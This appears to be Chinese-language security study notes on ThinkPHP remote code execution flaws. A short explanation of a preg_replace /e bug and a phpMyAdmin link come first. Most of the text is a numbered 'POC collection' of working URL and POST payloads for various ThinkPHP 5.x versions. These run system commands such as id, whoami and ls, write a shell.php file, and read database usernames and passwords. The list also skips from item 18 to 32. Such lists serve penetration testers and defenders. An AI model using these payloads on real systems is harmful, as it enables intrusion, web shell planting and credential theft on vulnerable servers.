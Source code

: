 **thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **Thinkphp POC大全**

**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.* POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.* 和 5.2.* 和 5.0.* POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`
